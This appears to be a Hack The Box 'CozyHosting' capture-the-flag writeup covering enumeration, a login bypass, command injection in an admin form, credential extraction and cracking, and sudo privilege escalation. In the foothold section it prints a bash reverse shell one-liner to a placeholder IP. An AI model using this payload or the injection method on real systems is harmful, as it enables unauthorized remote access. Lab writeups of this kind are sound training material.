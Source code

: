 ```yaml
---
layout: post
title: "HTB - CozyHosting Writeup"
categories: writeup
---
```


# 1. Initial enumeration
This writeup is meant to give an overview of the challenge's solution without spoiling too much of the key details so you can still have fun while following it !

First and foremost, as usual for any challenge we can run a simple port scan using nmap:
![](assets/CozyHosting/Selection_063.png)

From this we can already see that the target hosts an HTTP server as well as an SSH server, which probably means that our entry point will probably be found in our browser visiting the site related to this IP; and the SSH server might be useful later once we find a login for it.

Visiting the ip from our browser redirects us to a website (dont forget to add this host in your /etc/hosts file):
![](assets/CozyHosting/Selection_064.png)

We can quickly see that most links are pointing at the main page, except for the login page:
![](assets/CozyHosting/Selection_065.png)

However after testing this page for SQL injections (manually or using a tool like sqlmap), this page doesn't seem vulnerable. We can thus continue our enumeration with some dir busting using gobuster:
![](assets/CozyHosting/Selection_066.png)

This gives us a list of pages to visit, one of which seems to hold valuable information:
![](assets/CozyHosting/Selection_046.png)

This can be used to bypass the login and access to the admin panel:
![](assets/CozyHosting/Selection_045.png)

# 2. Foothold
We gained a first access on the site, we now need a way to execute arbitrary commands on the host.
On the adnmin page we can a function to patch hosts:
![](assets/CozyHosting/Selection_067.png)

We can put arbitrary values in both field and then intercept the request with Burp to tinker with it in Repeater. The idea is to find some inputs that would lead to a reverse shell. A payload like this one:
```bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
should be transformed in a way that will be executed by the request on the server. Using brackets, pipe and a proper encoding you should be able to get a reverse shell from this request!
![](assets/CozyHosting/Selection_050.png)

However, at this point we are yet to access a user account, we can only see a home for a user named 'josh'.
A jar file is also present in /app, this file should be downloaded on our machine and extracted to inspect its content and find useful information.

![](assets/CozyHosting/Selection_051.png)

The file application.properties contains credentials for a postegres database so we now need a way to access it as it might be our avenue to compromise a user account.

# 3. Gaining access
We can't access the database directly from our machine, however we could by setting up a tunnel from the client to our machine. This can be done using a tool such as Chisel. The tool must be downloaded and deployed on both sides:

![](assets/CozyHosting/Selection_072.png)![](assets/CozyHosting/Selection_073.png) 

We can then access the database from our machine:
![](assets/CozyHosting/Selection_071.png)

the user table contains two users with a password hash for each of them. Using John the ripper or Hashcat we can easily crack the admin password which is in the rockyou list.
![](assets/CozyHosting/Selection_059.png)

We can then use this password as well as the username retrieved earlier to connect to our target using SSH. This gives us access to our user flag !

# 4. Privilege escalation
Privilege escalation on this machine relies on a very common method, often found in easy challenges. Using 'sudo -l' you should have enough information to find which command can be exploited to get root access and open the flag in the /root directory ! (This site can help you find what you are looking for: https://gtfobins.github.io !)

Congratulations !